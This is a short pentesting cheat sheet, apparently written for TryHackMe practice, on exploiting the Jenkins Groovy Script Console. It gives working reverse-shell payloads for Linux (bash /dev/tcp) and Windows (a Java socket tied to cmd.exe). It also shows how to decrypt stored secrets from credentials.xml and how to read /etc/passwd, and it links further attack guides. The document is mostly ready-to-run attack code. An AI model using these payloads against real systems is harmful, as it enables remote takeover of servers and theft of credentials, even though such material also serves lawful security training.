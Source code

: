 Jenkins are installed on system as a user.

# Getting reverse shell on linux machine
This is via "Manage jenkins">"Script Console"> write your script here (**Internal TryHackMe**)

```bash
r = Runtime.getRuntime()  
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/IP/PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])  
p.waitFor()
```

# Windows
```bash
String host="localhost";  
int port=8044;  
String cmd="cmd.exe";  
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()&gt;0)so.write(pi.read());while(pe.available()&gt;0)so.write(pe.read());while(si.available()&gt;0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
**Extracting passphrase from Jenkins’ credentials.xml**

Credentials.xml can be found under the Jenkins installation folder which may help us to have another password and perhaps getting root/administrative access on the server. In order to check how to get credentials, please see the post [here](https://alionder.net/whitebox-approach-to-jenkins/).  
```bash
println( hudson.util.Secret.decrypt("Content_of_credentials.xml") )
```
Additional Resource can be found here: [https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter—toying-with-powersploit/](https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/)

# Code execution on Script Console
```bash
def command = "cat /etc/passwd"  
def proc = command.execute()  
proc.waitFor()  
  
println "Process exit code: ${proc.exitValue()}"  
println "Std Err: ${proc.err.text}"  
println "Std Out: ${proc.in.text}"
```



----


<center><h2>Resources</h2></center>


https://github.com/gquere/pwn_jenkins
https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins

Getting reverse shell if you get into the jenkins dashboard:

*Google search:*`ways to get reverse shell on jenkins`

https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6

https://alionder.net/jenkins-script-console-code-exec-reverse-shell-java-deserialization/

https://www.hackingarticles.in/exploiting-jenkins-groovy-script-console-in-multiple-ways/